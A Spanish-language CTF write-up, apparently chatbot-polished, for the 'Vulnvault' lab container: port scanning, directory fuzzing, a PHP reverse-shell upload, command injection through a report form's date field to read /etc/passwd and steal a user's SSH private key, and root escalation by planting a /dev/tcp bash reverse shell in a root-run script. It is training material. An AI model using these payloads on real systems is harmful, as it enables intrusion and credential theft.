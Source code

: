 Aquí tienes tu informe mejorado con redacción clara, profesional y explicaciones detalladas para la sección de inyección y escalada. No se ha movido ninguna imagen, solo se ha corregido, completado y enriquecido el texto existente:

---

# **Máquina: Vulnvault**

### **Dificultad:** Fácil

### 📝 **Descripción:**

**Vulnvault** es una máquina diseñada para poner a prueba nuestras habilidades básicas de pentesting web. En ella, exploraremos técnicas de fuzzing, bypass de validaciones de subida de archivos, ejecución de comandos remotos e inyecciones maliciosas dentro de una funcionalidad aparentemente inofensiva. Esta máquina es ideal para practicar análisis de servicios y escalada de privilegios en entornos tipo CTF.

### 🎯 **Objetivo:**

Obtener acceso root explotando vulnerabilidades presentes en el sitio web, ganando acceso como un usuario válido mediante SSH, y posteriormente escalando privilegios mediante el abuso de procesos ejecutados automáticamente como root.

![Logo](Imágenes/2025-05-17_23-29.png)

---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `vulnvault.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip vulnvault.zip
sudo bash auto_deploy.sh vulnvault.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Puertos](Imágenes/Capturas_2.png)

Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

Entramos al servicio web alojado en [http://172.17.0.3/](http://172.17.0.3/), que es una página para generar reportes y permite subir archivos. Intentamos inicialmente ejecutar una reverse shell en PHP.

![Pagina](Imágenes/Capturas_4.png)

Realizamos fuzzing con Gobuster para descubrir rutas y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Rutas interesantes encontradas:

* `/index.php`
* `/upload.html`
* `/upload.php`
* `/old`

![Fuzzing](Imágenes/Capturas_5.png)

La ruta más llamativa fue `http://172.17.0.3/upload.php`, ya que muestra los archivos subidos. Aquí intentamos ejecutar nuestra reverse shell PHP.

![Ejecutar](Imágenes/Capturas_6.png)

Descargamos la shell desde [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), la copiamos en un archivo `nano revshell.php`, y la subimos a través del panel.

![php](Imágenes/Capturas_7.png)

---

![subida](Imágenes/Capturas_8.png)

Aunque el archivo se sube exitosamente, no se ejecuta al hacer clic, por lo que intentamos otra vía.

En `index.php`, al generar un reporte, se muestra la ruta del archivo generado, como `/var/www/html/reportes/reporte_1747547683.txt`, junto con una advertencia sobre comandos maliciosos. Esto sugiere una posible vulnerabilidad de inyección de comandos.

![Inyeccion](Imágenes/Capturas_9.png)

Realizamos pruebas ingresando comandos en el campo de **fecha** usando el separador `;`. Por ejemplo:

```bash
;cat /etc/passwd
```

Con esto logramos listar los usuarios del sistema y descubrimos la existencia del usuario `samara`.

![Usuarios](Imágenes/Capturas_10.png)

Luego investigamos el directorio personal con:

```bash
;ls -la /home/samara
```

Encontramos archivos protegidos, pero accedimos a su clave SSH privada con:

```bash
;cat /home/samara/.ssh/id_rsa
```

Copiamos la clave a nuestra máquina, guardándola como `id_rsa`.

![Usuarios](Imágenes/Capturas_11.png)

Cambiamos permisos y establecimos conexión SSH como el usuario `samara`:

```bash
chmod 700 id_rsa
ssh -i id_rsa samara@172.17.0.3
```

![Usuarios](Imágenes/Capturas_13.png)

---

### 🔐 Escalada de privilegios

Como el usuario `samara`, intentamos lo habitual:

```bash
sudo -l
find / -perm -4000 2>/dev/null
```

Pero no obtuvimos resultados útiles. Entonces ejecutamos `ps aux` para revisar procesos en ejecución, y descubrimos uno muy interesante:

```bash
/bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
```

Esto indica que el archivo `/usr/local/bin/echo.sh` se ejecuta en bucle **como root**, lo que nos da una vía para escalada.

Accedimos al directorio y listamos el contenido:

```bash
cd /usr/local/bin
ls
```

Intentamos editar el archivo con `nano`, pero falló por la variable `TERM`. Solucionamos el error así:

```bash
export TERM=xterm
nano echo.sh
```

Insertamos una reverse shell en el archivo:

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

![Usuarios](Imágenes/Capturas_14.png)

Guardamos y salimos. En nuestra máquina atacante ejecutamos:

```bash
sudo nc -lvnp 443
```

Y tras unos segundos, obtuvimos una shell como `root`.

![Usuarios](Imágenes/Capturas_15.png)

---
Perfecto, aquí tienes una **conclusión** y unas breves **recomendaciones finales** para completar tu informe:

---

## ✅ **Conclusión**

La máquina **Vulnvault** nos permitió practicar diferentes vectores de ataque, desde el reconocimiento y explotación de servicios web hasta el uso de técnicas de inyección de comandos. Logramos obtener acceso como el usuario `samara` a través de una clave SSH extraída mediante inyección, y finalmente escalamos privilegios explotando un script ejecutado automáticamente como root. Esta máquina refuerza conceptos clave del pentesting y demuestra la importancia de validar correctamente entradas del usuario y proteger scripts con permisos elevados.

---

## 🔐 **Recomendaciones**

* Nunca almacenes claves privadas sin protección en directorios accesibles.
* Valida y sanitiza todas las entradas del usuario, especialmente en formularios que interactúan con el sistema.
* Evita ejecutar scripts como root sin restricciones ni controles adecuados.
* Asegúrate de que las rutas de carga de archivos sean seguras y no permitan ejecución directa.

---
